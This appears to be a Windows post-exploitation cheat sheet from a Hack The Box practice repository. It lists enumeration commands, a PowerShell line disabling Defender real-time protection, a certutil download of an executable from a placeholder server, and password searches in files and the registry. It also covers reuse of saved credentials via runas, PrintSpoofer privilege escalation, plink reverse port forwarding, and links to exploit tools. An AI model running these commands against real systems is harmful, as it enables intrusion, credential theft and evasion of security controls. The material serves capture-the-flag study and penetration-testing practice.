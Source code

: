 ### Command Reference
| Description | Unix | CMD | Powershell |
| -- | -- | -- | -- |
| User Logged in | whoami | echo %username% | $env:username|
| | | | [System.Security.Principal.WindowsIdentity]::GetCurrent().Name |
| Change Directory | cd \<path\> | cd \<path\> | Set-Location \<path\> |
| Lis the directory | ls | dir | Get-ChildItem |
| View file contents | cat \<file\> | type \<file\> | Get-Content \<file\> |
| Move files | mv \<file.org\> \<file.mov\> | move \<file.org\> \<file.mov\> | Move-Item \<file.org\> \<file.mov\> |
| Clear Screen | clear | cls | Clear-Host |
| Copy files | cp \<file.org\> \<file.cpy\> | copy \<file.org\> \<file.cpy\> | Copy-Item \<file.org\> \<file.cpy\> | 
| Delete files | rm \<file\> | del \<file\> | Remove-Item \<file\>|
| Web Requests | curl \<url\> | | Invoke-WebRequest \<url\> |
| Supress Error messages | cd /Windows32/System 2>/dev/null | cat /etc/shadow 2>nul | Get-Content /etc/passwd -ErrorAction SilentlyContinue |

### Network monitoring

```bash
# network modules info and IPs
ifconfig
ipaddr
# shows the tcp connection
netstat -antp     
ss -antp  
#netstat -ano ; 0.0.0.0:445 = implies, SMB service is running within the machine and not open for others
#so it is best to perform port forwading and checking those services locally
# windows
netstat -antp 
ipconfig        
```

### Windows Post Exploit
### Powershell 
![powershell](https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/powershell.png)
#### Get to know the current user, which you are logged in 

```powershell
# system_name\user_name
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name

# user name & system name
$env:UserName
$env:UserDomain

# find exe's in the current directory
# -erroraction 'silentlycontinue' similar to 2>/dev/null
Get-ChildItem -Filter "*.exe" -Recurse -erroraction 'silentlycontinue' 
```

#### Disable RealTimeProtection

```powershell
#disables real time protection
Set-MpPreference -DisableRealtimeMonitoring $true

#enables real time protection
Set-MpPreference -DisableRealtimeMonitoring $false
```

### CMD Commands

#### Normal CMD

```powershell
# get current username
whoami

# get system information
systeminfo

# wget for windows
certutil -urlcache -f http://iamserver:port/xxxx.exe xxxx.exe

# grep() for os name
systeminfo | findstr /C:"OS Name"

# locate() for files
findstr /si password *.txt *.ini *.config *.xml *.bat

# locate *.exe's
dir /s /b *.exe
where *.exe

# get the hostname
hostname

# know the priviledges we have
# token impresonate attacks can be donw with this privs
whoami /priv

# know all the users in the machine
net user 

# Obtain information about the specific user
net user <username>

# Obtain users belongs to a specific groups
# users belonging to the sudo groups
net localgroup administrators / <group name>

# get to know network
ipconfig
ipconfig /all

# internal network services
netstat -ano 

# get to know antivirus
sc query windefend	#know about windows defender status (up / down)
sc queryex type= service #brings all the running services in the machine

# get to know about the firewall 
netsh show firewall state

# Search for passwords in registry
reg query HKLM /f password /t REG_SZ /s

# port forward using plink.exe -l user -pw password for the user 
plink -l root -pw <pass> -R PORT:127.0.0.1:PORT 10.10.x.x

# search for binaries in the machine, like whereis in linux
# rn searching for powershell.exe in C:\Window\System32
where /R C:\windows\System32 powershell.exe

# look for stored credentials in the machine
cmdkey /list 

# run as commands, when the creds for the user is stored which can be confirmed with cmdkey /list
runas.exe /user:domain\UserName /savecred "C:\Windows\System32\cmd.exe /c Type C:\Users\UserName\Desktop\(user|root).txt > C:\Users\lowUser\root.txt"

# if SeImpersonate Priviledges is available, use Printspoof
# https://github.com/itm4n/PrintSpoofer
PrintSpoofer.exe -i -c cmd
```

#### CMD commands when wmic is available

```powershell
# updation list
wmic qfc get Caption,Description,HotFixID,InstalledOn

# list disks with wmic
wmic logicaldisk get caption,description,providenBane

```

#### When Port forwarding:

- In the linux machine

```bash
# check ssh installation
sudo apt install ssh
# for a normal user, the ssh login will be smooth 
# for a root user, edit the sshd.config
# change from #PermitRootLogin prohibit-password -> PermitRootLogin yes
vi /etc/ssh/sshd_config
# start the ssh service
sudo service ssh start
# check the port forwarded service
netstat -ano
# after forwading the port, if user creds are available try winexe, 127.0.0.1 is given since the particular port is forwarded to out local machine
winexe -U Administrator%<pass> //127.0.0.1 "cmd.exe"

```

#### Resource

##### \*.exe

- [winPEAS.exe]("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS")
- [Seatbelt.exe]("https://github.com/GhostPack/Seatbelt")
- [Watson.exe]("https://github.com/rasta-mouse/Watson")
- [SharpUp.exe]("https://github.com/GhostPack/SharpUp")

##### \*.ps1

- [Sherlock.ps1]("https://github.com/rasta-mouse/Sherlock")
- [PowerUp.ps1]("https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp")
- [Jaws-enum.ps1]("https://github.com/411Hall/JAWS")
- [PowerUp.ps1]("https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1")

##### Misc

- [Windows-exploit-suggester.py]("https://github.com/AonCyberLabs/Windows-Exploit-Suggester")
- [Windows-Kernal-exploits]("https://github.com/SecWiki/windows-kernal-exploits")
- [CVE's]("https://github.com/nomi-sec/PoC-in-GitHub")
- [winexe]("https://tools.kali.org/maintaining-access/winexe")
- [PsExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py")
- [SmbExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py")
- [WmiExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py")
- [Impersonate PrivEsc]("https://github.com/gtworek/Priv2Admin")
